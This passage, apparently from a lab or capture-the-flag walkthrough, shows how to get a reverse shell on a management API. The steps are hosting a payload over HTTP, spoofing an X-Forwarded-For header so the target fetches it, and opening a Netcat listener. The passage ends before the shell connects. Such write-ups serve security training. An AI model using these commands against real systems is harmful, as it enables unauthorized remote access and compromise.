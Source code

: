 We can host it over HTTP with a basic python web server.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next, we'll upload our reverse shell by sending the required POST request to the **/update** endpoint.

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.120.149:13337/update -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" --data '{"user":"clumsyadmin","url":"http://192.168.118.5/shell"}'
Update requested by clumsyadmin. Restart the software for changes to take effect.
```

We see a _200-OK_ hit on our web server. It looks like the API successfully downloaded the payload.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.149 - - [12/Mar/2021 08:26:34] "GET /shell HTTP/1.1" 200 -

```

The API is now telling us to target the **/restart** endpoint to initiate service restart. The usage guide says that this request should be a GET. We'll first set up a Netcat listener to catch our shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
```

With our listener started, we'll issue the GET request to restart the service. Unfortunately, it does not seem to work.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/restart -H "X-Forwarded-For: localhost"
<html>
    <head>
        <title>Remote Service Software Management API</title>
        <script>
            function restart(){
                if(confirm("Do you really want to restart the app?")){
                    var x = new XMLHttpRequest();
                    x.open("POST", document.URL.toString());
                    x.send('{"confirm":"true"}');
                    window.location.assign(window.location.origin.toString());
                }
            }
        </script>
    </head>
    <body>
    <script>restart()</script>
    </body>
</html>
```
